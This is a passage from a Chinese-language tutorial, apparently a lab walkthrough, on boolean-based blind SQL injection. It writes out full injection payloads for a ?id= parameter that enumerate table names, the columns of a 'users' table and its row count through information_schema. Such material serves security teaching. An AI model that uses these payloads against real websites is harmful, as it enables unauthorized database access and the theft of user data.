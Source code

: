 ![img](https://pic3.zhimg.com/80/v2-1c3dabbe269e3d3267f37d112889aa72_1440w.webp)



个数清晰后再来判断每个表名的长度，这里使用了`limit`方法，语法如下

```
limitN,M//从第N条记录开始,返回M条记录
```

这里依次判断表的长度：

```
第一个表长度为6 ?id=1'andlength((selecttable_namefrominformation_schema.tableswheretable_schema=database()limit0,1))=6--+ 第二个表长度为8 ?id=1'andlength((selecttable_namefrominformation_schema.tableswheretable_schema=database()limit1,1))=8--+ 第三个表长度为7 ?id=1'andlength((selecttable_namefrominformation_schema.tableswheretable_schema=database()limit2,1))=7--+ 第四个表长度为5 ?id=1'andlength((selecttable_namefrominformation_schema.tableswheretable_schema=database()limit3,1))=5--+
```

知道每个表的长度后，我们再使用和库名一样的方式猜解表名

![img](https://picx.zhimg.com/80/v2-8e94421dc57f26d5eba4144646fc99d7_1440w.webp)



例如第一个表名称为 emails

![img](https://pica.zhimg.com/80/v2-85619810d12baff500228274b37ea112_1440w.webp)



知道表（第四个表，长度为五，是 users）的信息后，我们再来猜列的个数，这里可以看到有三个列

```
?id=1'and(selectcount(column_name)frominformation_schema.columnswheretable_schema=database()andtable_name='users')=3--+
```

![img](https://pic1.zhimg.com/80/v2-ce599bd61321c2842ae627225f375906_1440w.webp)

再来判断每个列的长度

```
第一个列长度为2 ?id=1'andlength((selectcolumn_namefrominformation_schema.columnswheretable_schema=database()andtable_name='users'limit0,1))=2--+ 第二个列长度为8 ?id=1'andlength((selectcolumn_namefrominformation_schema.columnswheretable_schema=database()andtable_name='users'limit1,1))=8--+ 第三个列长度为8 ?id=1'andlength((selectcolumn_namefrominformation_schema.columnswheretable_schema=database()andtable_name='users'limit2,1))=8--+
```

再用同样的方法猜解列的名字，这里以第二个列为例，列名为 username

![img](https://pica.zhimg.com/80/v2-4204b0743b7e336dcb1cd6b467207882_1440w.webp)



下面还是如法炮制，判断列中有多少数据，我们可以使用`count(*)`

```
?id=1'and(selectcount(*)fromusers)=13--+
```
